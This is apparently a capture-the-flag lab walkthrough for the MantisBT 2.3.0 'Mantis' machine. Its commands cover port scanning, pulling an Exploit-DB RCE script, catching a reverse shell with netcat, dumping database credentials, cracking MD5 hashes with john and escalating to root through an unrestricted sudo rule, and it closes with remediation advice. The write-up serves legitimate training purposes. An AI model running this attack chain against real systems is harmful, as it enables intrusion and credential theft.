# Mantis - Virtual Hacking Lab

| Info          | Details                                               |
| ------------- | ----------------------------------------------------- |
| Platform      | Virtual Hacking Lab                                   |
| Difficulty    | Beginner                                              |
| Target IP     | 10.11.1.74                                            |
| OS            | Linux                                                 |
| Vulnerability | MantisBT 2.3.0 Remote Code Execution                  |
| Tools Used    | Nmap, Gobuster, Dirsearch, Searchsploit, Netcat, John |

## Attack Path
1. Reconnaissance
2. Port Scanning (Nmap)
3. SMB Enumeration
4. Web Enumeration
5. Discovery of Mantis Bug Tracker
6. Exploitation – MantisBT RCE
7. Reverse Shell Access
8. Credential Harvesting from Configuration Files
9. Password Cracking
10. Privilege Escalation via Sudo Misconfiguration
11. Root Access and Flag Retrieval

## Environment Setup

First, create a working directory and files to organize enumeration results.

```bash
mkdir mantis
cd mantis
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```

# Network Scanning

Identify the target IP and perform a full port scan.

```bash
ip='10.11.1.74'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



Results: SSH, HTTP, SMB services were discovered
# SMB

Since SMB was exposed, enumeration was performed to check for accessible shares.

SMB list share:

```bash
smbclient -L //$ip
```



Results: No public share listed

SMB did not provide an immediate attack vector, so further enumeration focused on the web service.
# Web Enumeration

The HTTP service was accessed via a web browser:

`http://10.11.1.74`



The page displayed the default **Apache2 Ubuntu page**, suggesting that the actual application may reside in a subdirectory.

Directory traversal with Gobuster and dirsearch.

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42

# dirsearch
dirsearch -u $ip
```





Interested directory listing

/robots.txt



Results: Discovered /mantisbt-2.3.0

Search exploit for mantis bug tracker 2.3:

```bash
searchsploit mantis bug tracker 2.3

searchsploit -m 48818
```



## Exploitation

Now lets try to run the exploit code.

```bash
python2 48818.py
sudo nc -lnvp 4444
"Success got a reverse shell"
```



The exploit successfully returned a **reverse shell**.
## Post Exploitation

```bash
whoami
id
```



Results: show user as www-data

The shell was running as the **web server user**.
# Linux Privilege Escalation
```bash
#try weak password 
ls -la /home 
"Showed mantis user"
su mantis
mantis
"Failed"

sudo -l
"www-data not a sudo user"
```

Further enumeration of the web application directory revealed configuration files.

```bash
# lets enumerate
cd /var/www/html/mantisbt-2.3.0
"found config directory"

cd config
"found config file"

cat config_inc.php
```



The configuration file contained **database credentials**.
### mysql enumeration

```bash
#try mysql now
mysql -u root -p
root
```

Database enumeration:

```
SELECT VERSION();
show databases;
use bugtrackerl
show tables;
SELECT username, password FROM mantis_user_table;
```



Results: Multiple user hashes were retrieved.

## Password Cracking
Use john to cracked the passwords:

```bash
# crack the password now
john --wordlist=/usr/share/wordlists/rockyou.txt  --format=raw-md5 creds.txt

john --show --format=raw-md5 creds.txt
```



Results: 5 passwords return the the user passwords = `password`

```bash
# login to the website
http://10.11.1.74/mantisbt-2.3.0
administrator::password
"Successful"
```

Results: Successful login to the mantis admin panel



Successful authentication granted access to the Mantis administration panel.

Further enumeration revealed an additional credential:

```bash
mantis::mantis4testing
```



Navigate back to the remote shell:

```bash
su mantis
mantis4testing
"success"

# check sudo permission
sudo -l
```



Results: show (ALL:ALL) ALL

### Root Privilege Escalation

```bash
# priv esc
sudo /bin/bash

whoami
id
date
cat /root/key.txt
"retrieved last text"
```



# Security Impact

The compromise occurred due to several security weaknesses:

1. **Outdated MantisBT application vulnerable to RCE**
2. **Sensitive credentials stored in configuration files**
3. **Weak password reuse**
4. **Overly permissive sudo configuration**

An attacker could fully compromise the system and obtain **root access**.

# Remediation

### 1. Update MantisBT

Upgrade to the latest patched version of Mantis Bug Tracker to eliminate known vulnerabilities.
### 2. Secure Configuration Files

Sensitive credentials should not be stored in plaintext configuration files.

Recommended actions:

- Restrict file permissions
- Use environment variables
- Store credentials in secure vaults
### 3. Enforce Strong Password Policies

Weak passwords such as `password` should never be allowed.

Organizations should enforce:

- Minimum password complexity
- Password rotation
- Account lockout policies

### 4. Restrict Database Access

The MySQL root account should not allow authentication without proper restrictions.

Best practices include:

- Limiting database access to localhost
- Using strong passwords
- Implementing role-based access control
### 5. Remove Excessive Sudo Privileges

The `mantis` user should not have unrestricted sudo access.

Recommended configuration:

`mantis ALL=(root) /usr/bin/specific-command`

Least privilege should always be enforced.